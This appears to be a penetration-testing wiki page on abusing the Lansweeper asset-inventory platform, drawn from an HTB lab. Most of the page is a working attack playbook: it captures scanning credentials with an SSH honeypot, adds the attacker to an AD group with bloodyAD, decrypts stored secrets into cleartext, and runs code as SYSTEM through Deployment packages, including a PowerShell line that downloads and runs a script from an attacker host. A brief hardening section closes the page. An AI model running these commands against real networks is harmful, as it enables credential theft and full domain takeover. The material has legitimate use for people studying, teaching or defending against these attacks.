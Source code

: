 # Lansweeper Abuse: Credential Harvesting, Secrets Decryption, and Deployment RCE


Lansweeper is an IT asset discovery and inventory platform commonly deployed on Windows and integrated with Active Directory. Credentials configured in Lansweeper are used by its scanning engines to authenticate to assets over protocols like SSH, SMB/WMI and WinRM. Misconfigurations frequently allow:

- Credential interception by redirecting a scanning target to an attacker-controlled host (honeypot)
- Abuse of AD ACLs exposed by Lansweeper-related groups to gain remote access
- On-host decryption of Lansweeper-configured secrets (connection strings and stored scanning credentials)
- Code execution on managed endpoints via the Deployment feature (often running as SYSTEM)

This page summarizes practical attacker workflows and commands to abuse these behaviors during engagements.

## 1) Harvest scanning credentials via honeypot (SSH example)

Idea: create a Scanning Target that points to your host and map existing Scanning Credentials to it. When the scan runs, Lansweeper will attempt to authenticate with those credentials, and your honeypot will capture them.

Steps overview (web UI):
- Scanning → Scanning Targets → Add Scanning Target
  - Type: IP Range (or Single IP) = your VPN IP
  - Configure SSH port to something reachable (e.g., 2022 if 22 is blocked)
  - Disable schedule and plan to trigger manually
- Scanning → Scanning Credentials → ensure Linux/SSH creds exist; map them to the new target (enable all as needed)
- Click “Scan now” on the target
- Run an SSH honeypot and retrieve the attempted username/password

Example with sshesame:

```yaml
# sshesame.conf
server:
  listen_address: 10.10.14.79:2022
```
```
```bash
# Install and run
sudo apt install -y sshesame
sshesame --config sshesame.conf
# Expect client banner similar to RebexSSH and cleartext creds
# authentication for user "svc_inventory_lnx" with password "<password>" accepted
# connection with client version "SSH-2.0-RebexSSH_5.0.x" established
```
```
Validate captured creds against DC services:

```bash
# SMB/LDAP/WinRM checks (NetExec)
netexec smb   inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec ldap  inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
```
Notes
- Works similarly for other protocols when you can coerce the scanner to your listener (SMB/WinRM honeypots, etc.). SSH is often the simplest.
- Many scanners identify themselves with distinct client banners (e.g., RebexSSH) and will attempt benign commands (uname, whoami, etc.).

## 2) AD ACL abuse: gain remote access by adding yourself to an app-admin group

Use BloodHound to enumerate effective rights from the compromised account. A common finding is a scanner- or app-specific group (e.g., “Lansweeper Discovery”) holding GenericAll over a privileged group (e.g., “Lansweeper Admins”). If the privileged group is also member of “Remote Management Users”, WinRM becomes available once we add ourselves.

Collection examples:

```bash
# NetExec collection with LDAP
netexec ldap inventory.sweep.vl -u svc_inventory_lnx -p '<password>' --bloodhound -c All --dns-server <DC_IP>

# RustHound-CE collection (zip for BH CE import)
rusthound-ce --domain sweep.vl -u svc_inventory_lnx -p '<password>' -c All --zip
```
```
Exploit GenericAll on group with BloodyAD (Linux):

```bash
# Add our user into the target group
bloodyAD --host inventory.sweep.vl -d sweep.vl -u svc_inventory_lnx -p '<password>' \
  add groupMember "Lansweeper Admins" svc_inventory_lnx

# Confirm WinRM access if the group grants it
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
```
Then get an interactive shell:

```bash
evil-winrm -i inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
```
Tip: Kerberos operations are time-sensitive. If you hit KRB_AP_ERR_SKEW, sync to the DC first:

```bash
sudo ntpdate <dc-fqdn-or-ip>   # or rdate -n <dc-ip>
```
```
## 3) Decrypt Lansweeper-configured secrets on the host

On the Lansweeper server, the ASP.NET site typically stores an encrypted connection string and a symmetric key used by the application. With appropriate local access, you can decrypt the DB connection string and then extract stored scanning credentials.

Typical locations:
- Web config: `C:\Program Files (x86)\Lansweeper\Website\web.config`
  - `<connectionStrings configProtectionProvider="DataProtectionConfigurationProvider">` … `<EncryptedData>…`
- Application key: `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`

Use SharpLansweeperDecrypt to automate decryption and dumping of stored creds:

```powershell
# From a WinRM session or interactive shell on the Lansweeper host
# PowerShell variant
Upload-File .\LansweeperDecrypt.ps1 C:\ProgramData\LansweeperDecrypt.ps1   # depending on your shell
powershell -ExecutionPolicy Bypass -File C:\ProgramData\LansweeperDecrypt.ps1
# Tool will:
#  - Decrypt connectionStrings from web.config
#  - Connect to Lansweeper DB
#  - Decrypt stored scanning credentials and print them in cleartext
```
```
Expected output includes DB connection details and plaintext scanning credentials such as Windows and Linux accounts used across the estate. These often have elevated local rights on domain hosts:

```text
Inventory Windows  SWEEP\svc_inventory_win  <StrongPassword!>
Inventory Linux    svc_inventory_lnx        <StrongPassword!>
```
```
Use recovered Windows scanning creds for privileged access:

```bash
netexec winrm inventory.sweep.vl -u svc_inventory_win -p '<StrongPassword!>'
# Typically local admin on the Lansweeper-managed host; often Administrators on DCs/servers
```
```
## 4) Lansweeper Deployment → SYSTEM RCE

As a member of “Lansweeper Admins”, the web UI exposes Deployment and Configuration. Under Deployment → Deployment packages, you can create packages that run arbitrary commands on targeted assets. Execution is performed by the Lansweeper service with high privilege, yielding code execution as NT AUTHORITY\SYSTEM on the selected host.

High-level steps:
- Create a new Deployment package that runs a PowerShell or cmd one-liner (reverse shell, add-user, etc.).
- Target the desired asset (e.g., the DC/host where Lansweeper runs) and click Deploy/Run now.
- Catch your shell as SYSTEM.

Example payloads (PowerShell):

```powershell
# Simple test
powershell -nop -w hidden -c "whoami > C:\Windows\Temp\ls_whoami.txt"

# Reverse shell example (adapt to your listener)
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker>/rs.ps1')"
```
```
OPSEC
- Deployment actions are noisy and leave logs in Lansweeper and Windows event logs. Use judiciously.

## Detection and hardening

- Restrict or remove anonymous SMB enumerations. Monitor for RID cycling and anomalous access to Lansweeper shares.
- Egress controls: block or tightly restrict outbound SSH/SMB/WinRM from scanner hosts. Alert on non-standard ports (e.g., 2022) and unusual client banners like Rebex.
- Protect `Website\\web.config` and `Key\\Encryption.txt`. Externalize secrets into a vault and rotate on exposure. Consider service accounts with minimal privileges and gMSA where viable.
- AD monitoring: alert on changes to Lansweeper-related groups (e.g., “Lansweeper Admins”, “Remote Management Users”) and on ACL changes granting GenericAll/Write membership on privileged groups.
- Audit Deployment package creations/changes/executions; alert on packages spawning cmd.exe/powershell.exe or unexpected outbound connections.

## Related topics
- SMB/LSA/SAMR enumeration and RID cycling
- Kerberos password spraying and clock skew considerations
- BloodHound path analysis of application-admin groups
- WinRM usage and lateral movement

## References
- [[https://0xdf.gitlab.io/2025/08/14/htb-sweep.html|HTB: Sweep — Abusing Lansweeper Scanning, AD ACLs, and Secrets to Own a DC (0xdf)]]
- [[https://github.com/jaksi/sshesame|sshesame (SSH honeypot)]]
- [[https://github.com/Yeeb1/SharpLansweeperDecrypt|SharpLansweeperDecrypt]]
- [[https://github.com/CravateRouge/bloodyAD|BloodyAD]]
- [[https://github.com/SpecterOps/BloodHound|BloodHound CE]]

